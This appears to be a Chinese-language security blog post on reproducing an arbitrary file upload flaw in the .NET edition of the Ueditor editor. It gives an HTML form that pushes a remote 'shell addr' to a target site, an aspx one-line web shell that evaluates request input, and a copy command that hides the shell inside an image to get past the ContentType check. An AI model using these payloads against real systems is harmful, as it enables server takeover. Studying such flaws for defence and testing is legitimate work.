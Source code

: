 ```yaml
---
layout: post
title: Ueditor 漏洞整理
date: 2022-8-24
categories: blog
tags: [漏洞复现,Ueditor]
description: Ueditor


---
```


### Ueditor .net版本任意文件上传

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马


```shell
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>

#命令行合成图片马
copy 1.jpg/b + 2.aspx 3.aspx
```

